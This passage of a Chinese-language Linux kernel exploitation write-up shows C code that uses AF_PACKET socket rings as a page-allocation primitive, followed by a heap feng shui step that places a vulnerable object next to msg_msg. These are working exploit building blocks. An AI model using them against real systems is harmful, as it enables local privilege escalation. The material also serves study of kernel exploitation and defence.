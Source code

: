 ```c
    }
}

int packet_socket_setup(unsigned int block_size, unsigned int frame_size,
                        unsigned int block_nr, unsigned int sizeof_priv, int timeout) {
    int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (s < 0) {
        die("socket(AF_PACKET): %m");
    }

    packet_socket_rx_ring_init(s, block_size, frame_size, block_nr,
                               sizeof_priv, timeout);

    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;

    int rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));
    if (rv < 0) {
        die("bind(AF_PACKET): %m");
    }

    return s;
}

int pagealloc_pad(int count, int size) {
    return packet_socket_setup(size, 2048, count, 0, 100);
}

int fd;

fd = pagealloc_pad(1, 0x10000) // 分配一个0x10000的chunk
close(fd) // 释放 chunk
    
fd = pagealloc_pad(100, 0x1000) // 分配 100 个 0x1000 的chunk
close(fd) // 一次性释放这个100个chunk
```

### 2-2. 堆布局

**堆风水**：首先进行堆风水，耗尽 0x1000 ~ 0x10000 之间 freelist 中的堆块，以构造漏洞对象和 `msg_msg` 相邻的堆布局。

```c
logd("do heap fengshui to reduce noise ...");
pagealloc_pad(1000, 0x1000);
pagealloc_pad(500, 0x2000);
pagealloc_pad(200, 0x4000);
pagealloc_pad(200, 0x8000);
pagealloc_pad(100, 0x10000);
```
